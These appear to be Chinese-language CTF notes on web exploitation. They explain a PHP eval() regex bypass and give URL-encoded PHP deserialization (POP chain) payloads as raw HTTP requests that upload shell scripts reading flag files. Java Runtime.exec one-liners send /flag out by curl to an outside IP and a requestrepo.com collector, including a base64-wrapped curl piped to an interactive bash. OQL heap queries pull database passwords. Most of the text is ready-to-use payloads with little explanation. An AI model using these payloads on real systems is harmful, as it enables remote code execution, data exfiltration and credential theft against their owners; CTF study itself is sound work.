解决办法是将https改成http。（https太安全了呜呜呜）编码器记得选base64

Pop链条构造eval函数里面调用函数要记得system(‘ls’);

 if (';' === preg_replace('/\[^\s\(\)]+?\((?R)?\)/', '', $var)){

```php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
eval($_GET['code']);
} else {
    show_source(__FILE__);
}

```

正则表达式：/[oc]:\d+:/i。意思是过滤这两种情况：o:数字:与c:数字:

 \W,(注意这个W是大写的)，匹配非字母、数字、下划线。等价于[^A-Za-z0-9_]。

 所以[^\W]是对上面的\w取反: 匹配所有字母数字下划线的字母。

s 代表让 . 也可以匹配换行符。

(\s)*: 匹配零个或者多个空白字符 空格 制表符 换页符

(\n)+: 匹配一个或多个换行符

/i : 匹配时不区分大小写

?R:嵌套

^\s\(\) 表示匹配除了空格、左括号和右括号之外的任意字符。

禁用数字和小写字符，可用${IFS}这种取值，如果给出环境变量内容，利用构造nl显示.

->>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>ctfshow构造{IFS} - 简书.html(117题)

%0aphp 遇到多行匹配%0a换行

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps2.jpg`

POST /?ctf=a%3A2%3A%7Bi%3A0%3BO%3A3%3A%22CCC%22%3A3%3A%7Bs%3A1%3A%22a%22%3BN%3Bs%3A1%3A%22c%22%3BO%3A3%3A%22AAA%22%3A2%3A%7Bs%3A1%3A%22s%22%3BO%3A3%3A%22BBB%22%3A1%3A%7Bs%3A6%3A%22%00BBB%00b%22%3Bs%3A20%3A%22.+%2F%3F%3F%3F%2F%3F%3F%3F%3F%3F%3F%3F%3F%5B%40-%5B%5D%22%3B%7Ds%3A1%3A%22a%22%3Bs%3A4%3A%22eval%22%3B%7Ds%3A1%3A%22b%22%3BR%3A3%3B%7Di%3A0%3BN%3B%7D HTTP/1.1

Host: localhost

User-Agent: python-requests/2.31.0

Accept-Encoding: gzip, deflate

Accept: */*

Connection:close

Content-Length:155

Content-Type: multipart/form-data; boundary=c25447769cf9fc1afc13ede702b4279d

--c25447769cf9fc1afc13ede702b4279d

Content-Disposition: form-data; name="file"; filename="file"

**#/bin/sh**cat /*

--c25447769cf9fc1afc13ede702b4279d--

POST /?ctf=O%3A3%3A%22CCC%22%3A3%3A%7Bs%3A1%3A%22c%22%3BO%3A3%3A%22AAA%22%3A2%3A%7Bs%3A1%3A%22s%22%3BO%3A3%3A%22BBB%22%3A1%3A%7Bs%3A1%3A%22b%22%3Bs%3A20%3A%22.+%2F%3F%3F%3F%2F%3F%3F%3F%3F%3F%3F%3F%3F%5B%40-%5B%5D%22%3B%7Ds%3A1%3A%22a%22%3Bs%3A9%3A%22lewiserii%22%3B%7Ds%3A1%3A%22a%22%3BN%3Bs%3A1%3A%22b%22%3BR%3A6%3B% HTTP/1.1

Host: 192.168.100.100:10033

Content-Length: 186

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: null

Content-Type: multipart/form-data; boundary=----WebKitFormBoundary0xXn6nlxZVqh49pS

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

Connection: close

------WebKitFormBoundary0xXn6nlxZVqh49pS

Content-Disposition: form-data; name="file"; filename="1.txt"

Content-Type: text/plain

cat /f*

------WebKitFormBoundary0xXn6nlxZVqh49pS--

Set_error_handler

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps3.jpg`

---


## 十、Java 命令执行与 OQL 查询

## ☕ 十、Java 命令执行与 OQL 查询

> [!summary] 速览
> - `java.lang.Runtime.getRuntime().exec(...)` 的几种变形，含反引号外带与 base64 包裹
> - 取回显：`BufferedReader(InputStreamReader(exec(...).getInputStream()))`、`Scanner`
> - 用工具的 **OQL 查询**搜 `password` 关键字，拿数据库连接密码

```java
java.lang.Runtime.getRuntime().exec('curl http://`47.99.125.16/`cat /flag`')

java.lang.Runtime.getRuntime().exec('bash -c {echo,curl  http://`cat /flag`.os34jtkl.requestrepo.com/}|{base64,-d}|{bash,-i}')

java.lang.Runtime.getRuntime().exec('bash -c {echo,Y3VybCAgaHR0cDovL2BjYXQgL2ZsYWdgLm9zMzRqdGtsLnJlcXVlc3RyZXBvLmNvbS8=}|{base64,-d}|{bash,-i}')

```

```java
 new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("cat /flag").getInputStream())).readLine() 
     
 new java.util.Scanner(java.lang.Runtime.getRuntime().exec('cat
/flag').getInputStream())

```

```sql
利用该工具的OQL查询功能,查询password关键字得到数据库连接密码
查询语句如下:
select * from java.util.Hashtable$Entry x WHERE (toString(x.key).contains("password"))
或
select * from java.util.LinkedHashMap$Entry x WHERE (toString(x.key).contains("password"))

```

---

